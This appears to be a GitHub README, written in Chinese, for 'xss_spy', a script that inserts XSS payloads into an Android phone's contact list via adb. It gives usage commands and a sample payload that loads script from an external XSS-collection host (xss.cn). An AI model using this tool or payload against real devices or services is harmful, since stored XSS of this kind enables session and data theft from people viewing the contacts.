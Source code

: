# xss_spy

**快速的将XSS payload 导入安卓手机通讯录**

## 使用方法
使用前请先测试adb是否正常连接
```bash
./adb_connect.sh
```
运行脚本
```bash
python3 xss_spy "your xss payload"
```
> 你的XSS payload 应该像这样 "xss.cn/xss"
> 比如你使用的xss平台给你的payload是这样的
> ```javascript
> <script src=//xss.cn/xss></script>
> ```
> 那么你输入的参数应该是
> ```bash
> python3 xss_spy "xss.cn/xss"
> ```

![img](./img/xss_spy.gif)

## 关于
快速的将xss payload插入通讯录, 免去了抓包，寻找参数的步骤。